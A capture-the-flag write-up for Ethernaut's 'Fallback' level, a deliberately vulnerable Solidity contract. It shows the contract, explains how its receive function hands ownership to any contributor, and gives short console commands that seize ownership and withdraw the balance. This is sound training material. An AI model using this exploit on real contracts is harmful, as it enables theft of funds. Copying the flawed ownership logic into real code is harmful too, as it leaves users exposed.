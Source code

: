 # Ethernaut: 1. Fallback

**Objective of CTF:**

- Claim ownership of the contract.
- Reduce contract balance to 0.

**Target contract:**

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

The receive function is flawed, we just need to send some value via contribute and then via receive to change the owner. The contribute requires less than 0.001 ether, and receive expects greater than 0. Here is the plan:

1. We will contribute 1 Wei.
2. We will then send money to the contract address via a fallback function. This can be done by calling a non-existent function in the contract with some ether value.
3. We are now the owner!
4. To deal the final blow, we call the `withdraw` function. By only spending 2 Wei, we got the owners balance :)

```js
// (1) Contribute
await contract.contribute({ value: "1" });

// (2) Fallback
await contract.sendTransaction({
  from: player,
  value: "1",
  data: undefined, // for the fallback
});

// (3) Confirm ownership
await contract.owner();

// (4) Withdraw
await contract.withdraw();
```
